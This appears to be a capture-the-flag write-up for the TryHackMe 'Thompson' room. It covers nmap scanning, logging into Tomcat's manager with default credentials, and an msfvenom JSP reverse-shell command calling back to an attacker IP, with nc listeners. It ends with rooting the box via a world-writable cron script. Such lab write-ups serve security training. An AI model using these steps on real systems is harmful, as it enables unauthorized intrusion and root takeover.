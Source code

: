 ```yaml
---
layout: post
title: PenLog - Thompson by TryHackMe
categories: [TryHackMe, Penlog, Write Up, CTF, OSCP]
---
```


## Details

**Platform:** [TryHackMe](https://www.tryhackme.com/)\
**Difficulty:** Easy\
**Link:** [Thompson](https://tryhackme.com/room/bsidesgtthompson)

## Enumeration

Run `nmap` default port scan on target with TCP connect/version/script options:

```bash
$ nmap -vv -Pn -sT -sV -sC -r -n 10.10.58.198
```

This results in:

![nmap1](/images/posts/penlog_thompson_by_tryhackme/nmap1.png)

Open browser and navigate to target's open http port 8080; confirm Tomcat version is v8.5.5 as per the `nmap` scan result:

![tomcat](/images/posts/penlog_thompson_by_tryhackme/tomcat.png)

Navigate to _/manager_ by clicking the "Manager App" button; click "Cancel" when prompted for a username and password.

Note the rendered error response mentions example credentials:
* **Username:** tomcat
* **Password:** :s3cret

![tomcat-error](/images/posts/penlog_thompson_by_tryhackme/tomcat_error.png)

Reattempt to authenticate to _/manager_ with the above mentioned example credentials - **success**.

## User Shell

Generate a JSP payload in _.war_ format using `msfvenom`:

```bash
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.4.9.232 LPORT=4444 -f war > shell.war
```
_(**Note**: You can list available payloads with `msfvenom --list payloads`; I use `grep` to filter the payloads on a needs basis.)_

Deploy the generated _shell.war_:

![tomcat-deploy](/images/posts/penlog_thompson_by_tryhackme/tomcat_deploy.png)

![tomcat-deployed](/images/posts/penlog_thompson_by_tryhackme/tomcat_deployed.png)

Start an `nc` lister on the port specified as _LPORT_ to the `msfvenom` command:

```bash
$ nc -vnlp 4444
```

Click the _/shell_ link in the deployed applications list (as shown above) -- the Tomcat server will execute the deployed JSP reverse shell code generated using `msfvenom` -- to establish a low-privilege _user_ shell.

Upgrade the shell with a PTY:

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ (Ctrl-Z)
$ stty raw -echo
$ fg
$ export TERM=xterm && reset
```

Get the user _flag.txt_:

![nmap1](/images/posts/penlog_thompson_by_tryhackme/user_flag.png)

Notice the _id.sh_ file in the user home directory _/home/jack_; this script is owned by _jack_ but is world writable - that is, the _tomcat_ user can change the script:

![id-script-perms](/images/posts/penlog_thompson_by_tryhackme/id_script_perms.png)

This script, when executed, writes out the _uid_ of the executing user to the file _test.txt_ in the same home directory:

![id-script-out](/images/posts/penlog_thompson_by_tryhackme/id_script_out.png)

Notice the current _test.txt_ reads `id` output for _root_; indicating the last user to execute the _id.sh_ script was _root_.

The system _/etc/crontab_ shows evidence of the _id.sh_ script running every minute as user _root_:

![crontab](/images/posts/penlog_thompson_by_tryhackme/crontab.png)

## Root Shell

Replace the _id.sh_ script with a bash reverse shell connection to attacking machine:

![id-script-new](/images/posts/penlog_thompson_by_tryhackme/id_script_new.png)

Start `nc` listener on the attacking machine, specifying expected reverse shell port (4446 in this case):

```bash
$ nc -vnlp 4446
```

Wait for `cron` to execute _id.sh_ as root, establishing a reverse shell as _root_; get the root _flag.txt_:

![root-shell](/images/posts/penlog_thompson_by_tryhackme/root_shell.png)
